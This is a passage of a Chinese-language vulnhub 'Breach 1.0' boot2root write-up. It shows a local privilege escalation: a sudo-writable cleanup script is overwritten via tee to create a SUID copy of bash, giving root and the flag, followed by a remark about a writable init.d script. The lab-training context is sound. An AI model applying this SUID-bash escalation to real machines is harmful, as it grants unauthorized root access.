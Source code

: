 可以使用`tee`写文件

```sh
blumbergh@Breach:~$ cat 1.sh
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
blumbergh@Breach:~$ cat 1.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
blumbergh@Breach:~$ cat /usr/share/cleanup/tidyup.sh
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```

```sh
blumbergh@Breach:/tmp$ ./bash -p
bash-4.3# id
uid=1001(blumbergh) gid=1001(blumbergh) euid=0(root) egid=0(root) groups=0(root),1001(blumbergh)
bash-4.3# cd /root
bash-4.3# ls -la
total 60
drwx------  4 root root  4096 Jun 12  2016 .
drwxr-xr-x 22 root root  4096 Jun  4  2016 ..
-rw-------  1 root root   115 Jun 12  2016 .bash_history
-rw-r--r--  1 root root  3106 Feb 19  2014 .bashrc
drwx------  2 root root  4096 Jun  6  2016 .cache
-rw-r--r--  1 root root   840 Jun 11  2016 .flag.txt
-rw-r--r--  1 root root 23792 Jun  4  2016 flair.jpg
-rw-r--r--  1 root root   140 Feb 19  2014 .profile
drwxr-xr-x  2 root root  4096 Jun  5  2016 .rpmdb
-rw-r--r--  1 root root    66 Jun  4  2016 .selected_editor
bash-4.3# cat .flag.txt
-----------------------------------------------------------------------------------

______                     _     __   _____      _____ _          _____          _ 
| ___ \                   | |   /  | |  _  |    |_   _| |        |  ___|        | |
| |_/ /_ __ ___  __ _  ___| |__ `| | | |/' |______| | | |__   ___| |__ _ __   __| |
| ___ \ '__/ _ \/ _` |/ __| '_ \ | | |  /| |______| | | '_ \ / _ \  __| '_ \ / _` |
| |_/ / | |  __/ (_| | (__| | | || |_\ |_/ /      | | | | | |  __/ |__| | | | (_| |
\____/|_|  \___|\__,_|\___|_| |_\___(_)___/       \_/ |_| |_|\___\____/_| |_|\__,_|


-----------------------------------------------------------------------------------
Congrats on reaching the end and thanks for trying out my first #vulnhub boot2root!

Shout-out to knightmare, and rastamouse for testing and g0tmi1k for hosting.
```

用`linpeas.sh`枚举发现，/etc/init.d/portly.sh可写

机器将在启动过程中执行 /etc/init.d中的所有内容
